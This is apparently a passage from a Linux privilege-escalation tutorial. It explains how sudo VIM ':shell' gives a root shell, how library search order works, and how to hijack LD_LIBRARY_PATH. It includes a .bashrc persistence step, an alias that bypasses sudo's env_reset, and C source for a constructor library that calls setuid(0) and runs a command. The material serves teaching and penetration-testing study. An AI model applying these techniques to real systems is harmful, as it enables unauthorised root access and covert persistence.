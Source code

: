 In this case, a password is not required for sudo access. Because of this, we can run VIM and then enter `:shell` to gain a root shell automatically.

# Shared Libraries

When an application runs on Linux, it checks for its required libraries in a number of locations in a specific order. When it finds a copy of the library it needs, it stops searching and loads the module it finds. The application searches for libraries in these locations, following this ordering.
1. Directories listed in the application’s `RPATH` value.
2. Directories specified in the `LD_LIBRARY_PATH` environment variable.
3. Directories listed in the application’s `RUNPATH` value.
4. Directories specified in `/etc/ld.so.conf`.
5. System library directories: `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`,` /usr/local/lib`, `/usr/local/lib64`, and potentially others.

# Shared Library Hijacking via LD_LIBRARY_PATH

When an application runs, it checks for its libraries in an ordered set of locations. After checking its internal RPATH values for hard coded paths, it then checks for an environment variable called `LD_LIBRARY_PATH`.

We are explicitly setting the environment variable before each call. However, as an attacker, we would want to insert a line in the user’s `.bashrc` or `.bash_profile` to define the `LD_LIBRARY_PATH` variable so it is set automatically when the user logs in.

One difficulty with using `LD_LIBRARY_PATH` for exploitation is that on most modern systems, user environment variables are not passed on when using sudo. This setting is configured in the `/etc/sudoers` file by using the `env_reset` keyword as a default.

We can bypass this setting by configuring again the alias for sudo with `sudo -E` in `.bashrc`:
```bash
alias sudo="sudo -E"
```

Example, save the following as hax.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid
static void runmahpayload() __attribute__((constructor));

void runmahpayload() {
	setuid(0);
	setgid(0);
	printf("DLL HIJACKING IN PROGRESS \n");
	system("touch /tmp/haxso.txt");
}
```

The fourth line provides a function declaration for a constructor function called `runmahpayload`. Constructor, functions are run when the library is first initialized in order to set up code for the library to use.
